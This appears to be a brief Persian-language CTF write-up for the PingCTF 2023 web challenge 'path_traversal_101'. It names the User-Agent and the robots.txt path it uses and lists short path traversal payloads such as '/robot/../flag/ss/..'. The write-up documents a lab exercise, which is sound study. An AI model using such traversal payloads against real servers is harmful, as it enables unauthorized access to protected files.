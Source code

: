 ```yaml
---
tags:
  - PingCTF
  - PingCTF-2023
  - Web
---
```


[آرشیو چلنج](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/pingCTF/2023/web/path_traversal_101)

`User-Agent: robot got from source`

Path: `/🤖` got from robots.txt

payload 1: `/robot/../flag/ss/..`

payload 2,3 😂 : `/flag/ss/..`

!!! نویسنده
    [SafaSafari](https://twitter.com/SafaSafari3)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۴